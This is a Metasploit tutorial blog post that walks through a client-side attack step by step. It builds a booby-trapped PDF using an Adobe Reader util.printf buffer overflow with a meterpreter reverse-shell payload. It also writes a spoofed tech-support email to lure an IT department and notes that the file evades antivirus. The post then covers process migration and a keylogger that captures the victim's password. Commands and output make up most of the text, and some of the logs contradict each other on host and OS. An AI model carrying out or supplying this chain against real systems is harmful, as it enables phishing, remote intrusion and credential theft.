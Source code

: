 ```yaml
---
draft: false
title: MSF Binary Client Exploits
linkTitle: Binary Client Exploits
weight: 200
translationKey: msf-binary-client-exploits
description: In this article, we will examine the client-side exploits for Windows and Linux.
date: 2017-05-20T13:13:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
url: /msf-binary-client-exploits/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Client-Side Exploits

In our previous articles, we have seen client-side exploits used for Windows and Linux. In this article, I want to look at another scenario.

Let's assume that after a successful information gathering phase, we have reached the following conclusion about an IT company. The company;

1) The systems they use are state-of-the-art.

2) The IT department's e-mail address: <itdept@victim.com>

Now, in this case, we want to reach a computer in the IT department and run a keylogger (keylogger). In this way, it will be possible to obtain useful information by recording the keys they press on the keyboard.

Let's run Metasploit Framework with the `msfconsole` command. Let's prepare a PDF document that will attract the IT department's attention and that they will want to open and read. Remember that the document should have a security-related and logical title. It should also not be detected as malicious by antivirus software.

To prepare such a PDF document, we will use the **Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Vulnerability**. For this, let's load the `exploit/windows/fileformat/adobe_utilprintf` module.

```bash
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set FILENAME BestComputers-UpgradeInstructions.pdf
FILENAME => BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(adobe_utilprintf) > set LPORT 4455
LPORT => 4455
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 FILENAME BestComputers-UpgradeInstructions.pdf yes The file name.


Payload options (windows/meterpreter/reverse_tcp):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
 LHOST 192.168.8.128 yes The listen address
 LPORT 4455 yes The listening port


Exploit target:

 Id Name
 -- ----
 0 Adobe Reader v8.1.2 (Windows XP SP3 English)
```

As can be seen from the output, you can set the `FILENAME` variable, that is, the file name, as you wish. In the Payload section, we need to set the `LHOST` and `LPORT` variables as the information of the computer that will be listened to. Then, let's run the module with the `exploit` command.

```bash
msf exploit(adobe_utilprintf) > exploit

> Creating 'BestComputers-UpgradeInstructions.pdf' file...
> BestComputers-UpgradeInstructions.pdf stored at /root/.msf4/local/BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) >
```

As you can see, the PDF file was created in `/root/.msf4/local/`. Let's copy this file to the `/tmp` folder for easy access. Now, before sending our file to the relevant e-mail address, we need to run the listener module on our computer. For this, we will use the `exploit/multi/handler` module. We make sure that the `LHOST` and `LPORT` values ​​are the same as the values ​​we gave when creating the PDF file.

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 4455
LPORT => 4455
msf exploit(handler) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```

After activating the listener module, we need to somehow send the PDF file to `itdept@victim.com`. You can do this with the sample command below. You can also use other email sending methods. The command is provided as an example.

```bash
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing **in **a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for **upgrading and securing your software. Please read and let us know **if **you have any problems.

Sincerely,

Best Computers Tech Support
Aug 24 17:32:51 kali sendEmail[13144]: Message input complete.
Aug 24 17:32:51 kali sendEmail[13144]: Email was sent successfully!
```

Let's briefly explain the parameters used in this example command.

`-t`: TO, the recipient address. `-f`: FROM, the sender address. `-s`: SMTP Server IP address. `-u`: TTITLE, the subject of the mail. `-a`: ATTACHMENT, the attached file.

When you type the command and press ENTER, you can start writing the Text part of the e-mail. After the writing is complete, you can complete the process with the CTRL+D keys. Thus, the mail will be sent to the recipient address.

When the recipient receives this mail and checks it with the Antivirus program, it will get a harmless result, but when he clicks to open the file, even if he sees a blank screen, communication with the listening computer is actually established.

```bash
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (718336 bytes)
session[*****] Meterpreter session 1 opened (192.168.8.128:4455 -> 192.168.8.130:49322)

meterpreter >

```

As you can see, when the PDF file is opened, the Meterpreter shell is opened. Now it is possible to run various commands on the other party's computer. Finally, it is possible to record keystrokes by running the `post/windows/capture/keylog_recorder` module.

```bash
meterpreter > ps

Process list
**============**

 PID Name Path
 --- ---- ----
 852 taskeng.exe C:\Windows\system32\taskeng.exe
 1308 Dwm.exe C:\Windows\system32\Dwm.exe
 1520 explorer.exe C:\Windows\explorer.exe
 2184 VMwareTray.exe C:\Program Files\VMware\VMware Tools\VMwareTray.exe
 2196 VMwareUser.exe C:\Program FilesVMware\VMware Tools\VMwareUser.exe
 3176 iexplore.exe C:\Program Files\Internet Explorer\iexplore.exe
 3452 AcroRd32.exe C:\Program Files\AdobeReader 8.0\ReaderAcroRd32.exe

meterpreter > run post/windows/manage/migrate

> Running module against V-MAC-XP
> Current server process: svchost.exe (1076)
> Migrating to explorer.exe...
> Migrating into process ID 816
> New server process: Explorer.EXE (816)

meterpreter > sysinfo
Computer: OFFSEC-PC
OS: Windows Vista (Build 6000, ).

meterpreter > use priv
Loading extension priv...success.

meterpreter > run post/windows/capture/keylog_recorder

> Executing module against V-MAC-XP
> Starting the keystroke sniffer...
> Keystrokes being saved **in **to /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
> Recording keystrokes...
```

You can check the recorded keys from the contents of the file `20110323091836_default_192.168.1.195_host.windows.key_832155.txt`.

```bash
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
Keystroke log started at Wed Mar 23 09:18:36 -0600 2011
Support, I tried to open his file 2-3 times with no success. I even had my admin and CFO tru y it, but no one can get it to open. I turned on the rmote access server so you can log in to fix this problem. Our user name is admin and password for that session is 123456. Call or email when you are done. Thanks IT Dept
```

As can be seen, the IT employee unknowingly revealed in his keystrokes that his username was `admin` and his password was `123456`
